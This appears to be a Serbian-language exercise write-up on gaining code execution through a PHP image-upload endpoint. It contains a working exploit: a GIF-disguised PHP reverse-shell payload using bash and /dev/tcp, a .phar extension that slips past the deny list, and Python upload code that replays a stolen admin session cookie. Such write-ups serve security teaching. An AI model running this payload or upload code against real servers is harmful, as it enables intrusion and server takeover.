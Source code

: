 # Zadatak 3 - Izvršavanje proizvoljnog koda na serveru

## Statička analiza

Statičkom analizom koda primećeno je da pri slanju slika proverava ograničen skup ekstenzija:

```
("php","pht","phtm","phtml","phpt","pgif","phps","php2","php3","php4","php5","php6","php7","php16","inc")
```

Primetili smo da možemo da umesto slike možemo da pošaljemo fajl koji može da se izvrši ako odaberemo odgovarajuću ekstenziju koja nije navedena.

## Opis koda

Za ovaj zadatak pretpostavljamo da su uspešno izvršeni prethodni zadaci - da smo uspeli da promenimo šifru nekom od korisnika i da smo preuzeli administratorov kolačić. 

Generišemo naziv za fajl na nasumičan način da bismo izbegli situaciju u kojoj naziv može da se filtrira kroz crne liste u opštem slučaju.

Definišemo *payload* koji ćemo poslati umesto slike na sledeći način:

```
 payload = "GIF98a;<?php exec(\"/bin/bash -c 'bash -i >& /dev/tcp/%s/%d 0>&1'\");?>"%("localhost",lport)
```

Pozivamo sledeću funkciju da pošaljemo zahtev za slanje slike. Kao fajl šaljemo generisani *payload* sa ektenzijom .phar jer ona nije u skupu ekstenzija koje se automatski odbijaju na serveru i govorimo da je tip fajla *image/gif*. Uz administrator kolačić, šaljemo tako sklopljen POST zahtev.
```
def upload_image(target, sessid):
	f = {
		'image':('%s.phar'%evil,payload,'image/gif'),
		'title':(None,evil)
	}
	c = {"PHPSESSID":sessid}
	r = requests.post("http://%s/admin/upload_image.php"%target,
		cookies=c,
		files=f,
		allow_redirects=False
	)
	return "Success" in r.text
```

Ako je zahtev uspešno primljen, fajl je sačuvan na serverskoj strani među slikama i sledeći put kad se admin prijavi i ode na stranicu na kojoj se slike pojavljuju, naš kod se izvršava i server otvara konekciju ka našem serveru na kom je postavljen osluškivač na podešenom portu koji čeka da se ranjivi server na njega zakači. Ovaj tip napada spada u *reverse shell* napade.